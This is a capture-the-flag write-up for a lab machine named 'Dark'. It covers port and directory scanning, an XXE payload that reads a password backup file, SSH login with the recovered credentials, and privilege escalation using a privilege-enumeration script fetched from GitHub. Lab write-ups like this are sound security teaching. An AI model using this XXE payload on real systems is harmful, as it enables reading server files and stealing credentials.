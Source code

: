 # Dark

__MACHINE IP__: 10.1.1.30

__DATE__: 20/05/2019

__START TIME__: 1:40 PM


`NMAP`
------

![alt text](Images/nmap.png)

I don't know why it showed the port `7007` as filtered, because when I checked that port I got `closed`.


`dirsearch`
------------

![alt text](Images/dir.png)

hmm...So we have some accesible directories. Let's see what we can find in them.

I got nothing interesting in the `js` and `img` but in `backup/` we got another URL

![alt text](Images/backup.png)

I couldn't figure out what this path refering to until I saw `XML` function in the `source` of the page.

![alt text](Images/source.png)

This is basically reference to `XXE` attack. The path that we got from `backup` is actually telling us where's the `password` are kept or in other words we have to use XXE to access that file/path.

Now, If we capture the request sent while submitting the form we will find the following XML in body request

```xml
<?xml version="1.0" encoding="UTF-8"?>
<root>
    <name>name</name>
    <tel>tel</tel>
    <email>email</email>
    <password>passswrd</password>
</root>
```
Instead of sending this we can edit the code to be

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///home/lord/password_backup.txt" >]>
<root>
    <name>me</name>
    <tel>666</tel>
    <email>&xxe;</email>
    <password></password>
</root>
```

This is XXE attack.

![alt text](Images/burp.png)

Okay so now we have the user name `lord` and password `sunnysunshine!5`

User pwn
--------

Just ssh into machine using those credentials and get the user.

![alt text](Images/user.png)

- get LinENum make a script with nano()
- https://raw.githubusercontent.com/itsKindred/jalesc/master/jalesc.sh

![alt text](Images/binary.png)

![alt text](Images/password.png)
supereasypassword101if

![alt text](Images/root.png)
